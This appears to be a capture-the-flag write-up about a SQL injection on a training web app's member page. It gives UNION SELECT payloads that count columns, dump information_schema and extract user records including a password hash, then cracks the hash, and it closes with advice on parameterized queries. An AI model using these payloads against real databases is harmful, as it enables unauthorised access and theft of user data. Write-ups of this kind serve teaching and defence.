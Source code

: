 ## Exploit
On the member page `${URL}?page=member`, we get SQL errors if we type random data, hinting at an SQL injection vulnerability, which happens when the user can directly control the SQL query sent to the database.

First let's get the number of rows. The UNION statement allows us to execute additional queries and to append them to the original one.
```SQL
1=1 UNION SELECT NULL           # 'The used SELECT statements have a different number of columns'
1=1 UNION SELECT NULL,NULL      # works
1=1 UNION SELECT NULL,NULL,NULL # 'The used SELECT statements have a different number of columns'
```
We can conclude that we have access to two columns of output, let's try getting the table and column names from the [mySQL schema](https://dev.mysql.com/doc/mysql-infoschema-excerpt/5.6/en/information-schema-columns-table.html)

```SQL
1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
We can see that the `users` table contains several informations about them, such as `user_id` `first_name` `last_name` `town` `country` `planet` `Commentaire` and `countersign`

MySQL uses the `CONCAT_WS` function to concacenate multiple strings with a separator
```SQL
1=1 UNION SELECT NULL, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```

We get `Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28` as the last result, the decrypted md5 reads `FortyTwo`, let's convert it to sha256
```shell
$ echo -n fortytwo | sha256sum
[REDACTED] -
```

## Fix
To defend against SQL injections developers should use prepared statements with parameterized queries, this will prevent any chance of injections occuring.
A less effective method that should be avoided is to escape the user supplied input, this method is heavily dependent on the database implementation and error-prone, it can make for a secondary defense however.
